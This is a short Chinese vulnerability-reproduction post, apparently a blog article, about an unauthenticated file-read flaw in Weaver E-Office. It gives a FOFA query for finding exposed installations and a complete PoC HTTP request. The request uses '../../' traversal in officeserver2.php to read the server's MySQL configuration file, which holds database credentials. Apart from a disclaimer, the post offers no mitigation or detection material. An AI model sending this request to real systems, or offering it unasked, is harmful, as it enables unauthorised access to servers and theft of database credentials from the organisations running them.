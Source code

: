 # 原创
：  漏洞复现--泛微E-Office前台文件读取漏洞

# 漏洞复现--泛微E-Office前台文件读取漏洞

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

## 一：漏洞描述

泛微E-Office是一款企业级的全流程办公自动化软件，它包括协同办公、文档管理、知识管理、工作流管理等多个模块，涵盖了企业日常工作中的各个环节。在该产品前台登录页存在文件读取漏洞。

### 二：网络空间测绘查询

fofa：<br/> app=“泛微-EOffice”<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5f85be3e509285795afde9ec008d71e1.jpeg"/>

### 三：漏洞复现

poc：

```
GET /iweboffice/officeserver2.php?OPTION=LOADTEMPLATE&amp;COMMAND=INSERTFILE&amp;TEMPLATE=../../bin/mysql_config.ini HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/21e088803f94f61691e6704a46458289.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/6ed1f26b404356636531ee3e62da41a5.jpeg"/>

